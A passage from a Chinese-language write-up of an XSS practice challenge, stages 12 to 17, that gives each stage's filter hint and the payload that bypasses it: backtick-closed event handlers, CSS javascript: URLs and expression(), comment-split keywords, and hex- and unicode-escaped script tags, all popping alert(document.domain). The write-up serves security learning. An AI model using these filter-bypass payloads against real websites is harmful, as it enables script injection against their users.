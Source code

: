 `Hint: "s/[\x00-\x20\<\>\"\']//g;"`

题目几乎过滤了所有能进行闭合的字符.

但源代码中的 value 是没有用引号括起来的, 只要找个功能类似于引号的字符就行.

简单 fuzz 一下发现并没有什么可利用的字符, 后来又在 IE 测试了一遍, 反引号能够替代引号闭合字符串.

```
``onmouseover=alert(document.domain);
```

## Stage 13

`Hint: style attribute`

css 的 xss, 两种方法, 第二种只能在 IE 下执行.

`background:url(javascript:alert(document.domain));`

`x:expression(alert(document.domain));`

## Stage 14

`Hint: s/(url|script|eval|expression)/xxx/ig;`

过滤了 url 和 expression, 能用 css 的注释绕过.

`background:ur/*xss*/l(javascript:alert(document.domain));`

`x:express/*xss*/ion(alert(document.domain));`

## Stage 15

`Hint: document.write();`

提交后发现尖括号等字符都被转义了, 查看源代码发现是调用 `document.write()` 进行输出.

注意这里是 JavaScript 的执行环境, 那就可以利用 JavaScript 的自解码机制去绕过.

用 `&#x;` 和 `&#;` 好像并不能执行, 换成了反斜杠, 但这里直接输入反斜杠会变成空, 改成 `//` 就行了.

`\\x3cscript\\x3ealert(document.domain);\\x3c/script\\x3e`

## Stage 16

`Hint: "document.write();" and "s/\\x/\\\\x/ig;"`

这里用上一题的 payload 并不能成功执行.

编码成 unicode 即可绕过, 反斜杠同样要输入两次.

`\\u003cscript\\u003ealert(document.domain)\\u003c\\u002fscript\\u003e`

## Stage 17 Stage 18

这两题没做, 直接贴上余大的 payload 吧.

`Hint: multi-byte character`
